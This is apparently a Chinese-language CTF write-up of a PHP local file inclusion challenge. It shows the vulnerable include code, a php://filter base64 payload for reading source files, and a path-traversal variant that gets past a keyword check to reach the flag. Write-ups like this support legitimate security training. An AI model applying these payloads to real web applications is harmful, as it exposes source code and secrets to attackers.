


先 fuzz 一下，参数后面加 `'`



明显这里有个文件包含的洞，对应包含的文件为 `?category=xxx`，但是限定死了后缀为 `.php`，且 php 版本为 7.x，所以不能使用 `%00` 截断。在尝试之后，发现 http 远程加载也不行，最终发现伪协议可行，payload

```payload
php://filter/read=convert.base64-encode/resource=index
```

PHP 部分源码

```php
<?php
				$file = $_GET['category'];

				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
```

在参数中必须要出现 `woofers` 或 `meowers` 或 `index`，这样一来我们就不能直接读取 flag 了。尝试绕过

```payload
php://filter/read=convert.base64-encode/resource=index/../flag
```




